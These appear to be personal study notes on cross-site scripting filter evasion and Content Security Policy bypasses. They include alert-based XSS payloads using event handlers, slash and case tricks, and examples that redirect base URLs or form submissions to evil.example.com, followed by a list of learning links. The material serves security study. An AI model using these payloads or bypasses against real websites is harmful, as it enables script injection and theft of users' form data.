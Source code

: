 **Without `<script>` keyword**
+ Can use `tags` lik _audio, iframe, svg, etc._
+ `<audio src/onerror=alert(1)>`
+ `<iframe/oNloAd=alert(1)//>`

**Space**
+ Can use `/` after tag name instead of a space
  `<iframe/oNloAd=alert()//>`
+ Use _URL Encoding_
 - The Browser will _AUTOMATICALLY DECODE URL encoded values_
 - Encoded URL parameters get decoded when variables from URL 

## [Bypassing] (3) - XSS Payload Without = `javascript:`, `on*=`,`alert()`

+ Space Characters: `(space, \f, \n, \r, \t)`
+ Capitalization: `jAvaScriPt`
+ Look at the payload of all things for more
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings

## [Bypassing] (4) - XSS Payload Without - &<>"=()
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without

**Script Gadgets**
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4

+ DOM XSS notes has more detail on this
       
       
## [Bypassing] (5) - Bypass CSP
* Uses: CSP, CSS, Html Comments, Html Elements, JS Fucntions, URLs

+ _Whitelisting generic CDN domains_ - `generic.cdn.example.com`
 - Attacker can upload own scripts

+ Check if the _nonce_ value is properly set:
  ```Example
  <meta http-equiv="Content-Security-Policy" content="
      default-src 'self'; script-src 'self' 'nonce-rAnd0m';
  ">
  
  <script nonce="rAnd0m">
  	doWhatever();
  </script>
  ```

+ `base-uri` is not set:
     <base href="https://evil.example.com">
 - Once hijacked, relative URLs are vulnerable
 - I just make my evil.example.com have the same `href`/`forms`

+ `form-action` - specifies where forms can submit their data
   If it's not set:
     <form action=https://evil.example.com>
       <!--inputs-->
     </forms>


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP